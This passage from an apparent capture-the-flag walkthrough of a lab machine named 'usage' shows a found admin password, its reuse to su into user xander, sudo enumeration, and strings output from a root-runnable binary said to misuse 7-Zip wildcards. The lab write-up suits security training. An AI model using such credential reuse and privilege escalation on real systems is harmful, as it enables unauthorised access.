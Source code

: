 ```c
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

| Username | Password         |
| -------- | ---------------- |
| admin    | 3nc0d3d_pa$$w0rd |

We checked the `/home` directory to see if there was a user which was not listed in the `/etc/passwd` file and found the user `xander`.

```c
dash@usage:/home$ ls
dash  xander
```

By `reusing` the found `password` on his account we were able to `elevate our privileges`.

```c
dash@usage:/home$ su xander
Password: 
xander@usage:/home$
```

## Privilege Escalation to root using Linux Wildcards

The user `xander` was able to execute `/usr/bin/usage_management` with `sudo`.

```c
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

We analyzed the binary real quick and noticed that it used `Linux Wildcards` in `7-Zip (7za)`.

```c
xander@usage:~$ strings /usr/bin/usage_management
/lib64/ld-linux-x86-64.so.2
chdir
__cxa_finalize
__libc_start_main
puts
system
__isoc99_scanf
perror
printf
libc.so.6
GLIBC_2.7
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
```